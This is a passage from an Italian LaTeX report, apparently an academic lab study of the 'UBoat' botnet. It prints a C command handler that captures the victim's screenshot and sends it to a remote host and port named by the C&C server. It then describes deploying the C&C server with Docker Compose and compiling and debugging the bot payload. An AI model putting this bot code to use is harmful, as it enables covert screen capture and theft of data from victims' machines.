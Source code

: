\lstset{numbers=left,tabsize=2}
\begin{lstlisting}[float,floatplacement=H,caption={Esempio di handler di comandi},captionpos=b,label={listing-uboat1}]{numbers=left}
void ScreenshotParser(int commandId, int commandType, char* data)
{
	int len;
	char** splitResults = SplitString(data, "@", &len, false);
	unsigned short port = (unsigned short)strtoul(splitResults[1], NULL, 0);

	int length;
	char* scr = CaptureScreenshot(&length);

	bool result = SendScreenshot(splitResults[0], port, scr, length,
            GetBotId());
	FreeSplitStringBuffer(splitResults, len);

	char* command = CreateCommand(commandId, commandType,
            result ? "Success" : "Fail", result ? 7 : 4);
	FreeScreenshot(scr);
	char* response = SendCommandWithDecodedResponse(command);
	FreeDecodedResponse(response);
}
\end{lstlisting}

\section{Deploy, testing e debug}
Il deploy del server è stato eseguito attraverso containerizzazione del web server e del DBMS. In particolare è stato utilizzado Docker Compose per eseguire contemporaneamente entrambi i container attraverso un unico file di configurazione ed un unico comando.
Questo (\ref{listing-uboat2}) illustra le porte e le directory da mappare, le variabili d'ambiente da utilizzare per la configurazione di MariaDB, nonché altre informazioni pertinenti, come la rete a cui associare i servizi e informazioni di risoluzione dei container.
L'handler delle richieste di upload veniva eseguito dall'interno del container all'occorrenza, eseguendo uno script PHP in background.

\medskip 
Dopo aver configurato l'indirizzo del server  C\&C nel codice sorgente del payload e installato gli strumenti necessari, come il Software Developer Kit (SDK) e i Build Tools, il payload è stato compilato ed eseguito in Visual Studio. Questo ha permesso di utilizzare il \textit{debugger} integrato dell'IDE per analizzare il funzionamento del bot.

